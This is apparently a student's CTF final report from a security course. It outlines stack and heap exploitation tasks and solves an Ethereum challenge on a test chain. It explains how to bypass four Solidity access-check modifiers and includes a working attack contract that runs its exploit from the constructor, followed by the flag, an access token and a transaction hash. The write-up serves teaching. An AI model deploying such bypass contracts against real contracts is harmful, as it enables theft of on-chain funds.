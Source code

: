 # Final
> 林子昕 3220103784

## 01 - stack final (30 pts)

**题目说明：**

本题需要通过ret2shellcode来进行利用

远程环境位于: IP: `8.154.20.109`, PORT: `10601`。

**分值说明 (`30 pts`) :**



- 成功获取 canary 内容 (**10 pts**)
- 成功泄漏栈地址 (**10 pts**)
- 成功跳转到 shellcode 并获取 shell，执行 flag.exe 获取 flag (**10 pts**)

## 02 - heap final (30 pts) + (20 pts bonus)

**题目说明：**

如在 lab-03 作业中提及的，不同的场景、不同的应用都可能会使用不同的堆管理器，glibc 使用的 ptmalloc 仅仅是作为安全研究人员常接触的一款。

那么，如果漏洞发生在堆管理器中呢？本次作业题实现了一个简单的堆 tinyheap，请通过逆向分析，并找到 libtiny.so 中存在的漏洞，完成该堆题的利用。

远程环境位于 IP: `8.154.20.109`, PORT: `10602`

> 注：program.c 的代码基本等同于同 lab-03 中的代码

**分值说明 (`30 pts` + `20 pts bonus`)：**



- 通过逆向的方式找到堆管理器中存在的问题并描述在报告中 (**15 pts**)
- 借助 lab-03 中的技巧，完成漏洞利用的主要primitive/原语 (**15 pts**)
- 完成弹 shell，执行 flag.exe 取得 flag (**20 pts bonus**)

## 03 - ethereum final (40 pts) + (30 pts bonus)

**题目说明：**

同 lab-04 中的步骤（同样是 holesky 测试链），通过 `nc 8.154.20.109 10603` 访问题目接口，并获取题目源码，根据要求完成题目。

> 你可能需要自行通过搜索学习 solidity 的 modifier、unchecked 等你可能未知的语法；并学习 msg.sender 和 tx.origin 的具体含义；extcodesize 的含义和该限制的绕过方法；再通过阅读代码来完成本题。
>
> 如果你对题目合约本身有疑惑，请先自行搜索、学习、解决，如果还是不懂，请再来询问助教。

**分值说明 (`40 pts` + `30 pts bonus`)：**

- 完成 4 个 modifier的绕过，编写利用代码，四个 modifier 分别占 10 分。(**40 pts**) 
    - 注：如果无法完成最终绕过，在报告中体现 各个 modifier 的绕过思路，每个 modifier 给 5 分。
- 完成最终的合约攻击并拿到 flag，并在实验报告中描述你的思路、攻击方法，粘贴你的目标合约地址、flag、攻击合约源码即可拿到全部分数。（**30 pts bonus**）
### 题目合约分析：`Final` 合约

该合约通过使用多个 `modifier` 来对函数 `play` 的调用进行条件检查。我们将逐个分析 `modifier` 的功能及其如何影响函数的执行。

#### 1. `modifier mod1()`
```solidity
modifier mod1() {
    require(msg.sender != tx.origin);
    _;
}
```

- 功能：这个 `modifier` 检查调用者的地址是否与交易发起者地址不同。
  - `msg.sender` 是当前直接调用合约的地址。
  - `tx.origin` 是最初发起交易的地址。对于一个直接从外部账户（EOA）发起的交易，`msg.sender` 和 `tx.origin` 是相同的；而对于通过合约调用的交易，`msg.sender` 是合约的地址，`tx.origin` 仍然是最初的外部账户地址。
  
- 条件：要求 `msg.sender != tx.origin`，即调用者必须是一个合约而不是外部账户。因此，必须通过合约间接调用目标合约，才能绕过这个检查。

#### 2. `modifier mod2()`
```solidity
modifier mod2() {
    uint x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```

- 功能：使用 Solidity 的内联汇编 (`assembly`) 来获取调用者的代码大小。`extcodesize(caller())` 返回调用者地址上部署的代码的字节数。如果调用者是合约，`extcodesize` 将返回一个大于零的值；如果调用者是外部账户（EOA），它返回零。
  
- 条件：要求调用者的代码大小为零。

#### 3. `modifier mod3(bytes8 _key)`
```solidity
modifier mod3(bytes8 _key) {
    unchecked {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_key) == uint64(0) - 1);
    }
    _;
}
```

- 功能：这个 `modifier` 对 `_key` 和 `msg.sender` 的 `keccak256` 哈希值做了 XOR 运算并要求结果为 `0xFFFFFFFFFFFFFFFF`，即 64 位的最大值。
  
  具体来说：
  - `keccak256(abi.encodePacked(msg.sender))` 计算了 `msg.sender` 的哈希值。
  - `bytes8()` 将哈希值的前 8 字节取出并转换为 `uint64`。
  - `_key` 是通过攻击合约提供的一个外部参数。
  - 如果 `uint64(keccak256(msg.sender)) ^ uint64(_key) == uint64(0) - 1` 成立，则 `require` 会通过，允许继续执行。

- 绕过：可以通过计算 `msg.sender` 的哈希值，然后推算出 `_key`

#### 4. `modifier mod4(uint256 _guess)`
```solidity
modifier mod4(uint256 _guess) {
    bytes32 entropy1 = blockhash(block.number);
    bytes32 entropy2 = keccak256(abi.encodePacked(msg.sender));
    bytes32 entropy3 = keccak256(abi.encodePacked(tx.origin));
    bytes32 target = keccak256(abi.encodePacked(entropy1 ^ entropy2 ^ entropy3));
    bytes32 guess = keccak256(abi.encodePacked(_guess));
    require(target == guess);
    _;
}
```

- 功能：这个 `modifier` 检查 `_guess` 是否正确。`_guess` 必须与计算的 `target` 匹配。
  - `blockhash(block.number)` 获取当前区块的哈希。
  - `keccak256(abi.encodePacked(msg.sender))` 和 `keccak256(abi.encodePacked(tx.origin))` 分别计算 `msg.sender` 和 `tx.origin` 的哈希值。
  - `target` 是通过 XOR 操作将上述三个值组合后再次哈希得到的。
  - `_guess` 是通过攻击合约传入的参数，其哈希值必须与 `target` 匹配。

- 绕过：攻击合约可以利用区块哈希（`blockhash(block.number)`）和合约信息（`msg.sender` 和 `tx.origin`）计算出正确的 `_guess` 值。


### 总结与绕过策略

1. 绕过 `mod1`：通过攻击合约的方式进行间接调用。攻击合约的 `msg.sender` 和 `tx.origin` 会不同，满足 `msg.sender != tx.origin` 的条件。
2. 绕过 `mod2`：攻击合约调用目标合约时，由外部账户发起，因此 `extcodesize` 返回 0，满足条件。
3. 绕过 `mod3`：计算 `msg.sender` 的哈希值并推算出 `_key`。`_key` 的计算是通过 `msg.sender` 的哈希值与 `0xFFFFFFFFFFFFFFFF` 进行异或得到的。
4. 绕过 `mod4`：攻击合约可以使用当前区块的哈希值以及合约信息来计算正确的 `_guess`。

### 攻击合约设计

由于 mod2 要求调用者的代码大小必须为0，所以我将攻击代码都放在构造函数中。
- 计算目标合约需要的 `_key` 和 `_guess`。
- 调用目标合约的 `play` 函数，绕过所有的 `modifier`。

```sol
interface IFinal {
    function play(bytes8 key, uint256 guess) external returns (bool);
}

contract Attack {
    address public targetAddress;

    constructor(address _target) {
        targetAddress = _target;
        bytes8 k = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
        
        bytes32 e1 = blockhash(block.number);
        bytes32 e2 = keccak256(abi.encodePacked(address(this)));
        bytes32 e3 = keccak256(abi.encodePacked(tx.origin));
        uint256 g = uint256(e1 ^ e2 ^ e3);
        IFinal(targetAddress).play(k, g);
    }
}
```

得到 flag：`ssec2024{H0Pe_you_H@VE_eNjOyed_SSEC_Eth_pAR7|21810b6b}`

![alt text](img/3220103784-林子昕-final/image.png)

- token：`v4.local.Uq3RzcfErDfdCmOcxwAtd8k8HVl_uelr07ONhPjpNPIQJvufUqMnd5DJI7tw6M4sZPToy7lm7q28JRJh1CfiMPLTWhEPq87AsE_PzZoydBtixcartLpkutRgqfPzgkeenvOSXlEvlqs5BjkJid1D8t0WNDlZ4cJ3WNcSKjUGjh1uWw`
- SendFlag TX: `0xb1c5a9caeaef862f2433f5fcfc20a446215c7dffeceabc9e19c3dd5d5a6a979a`
- target contract: `0x50288237BdEdb88c67Db31a49A96B6ebA588DD4B`
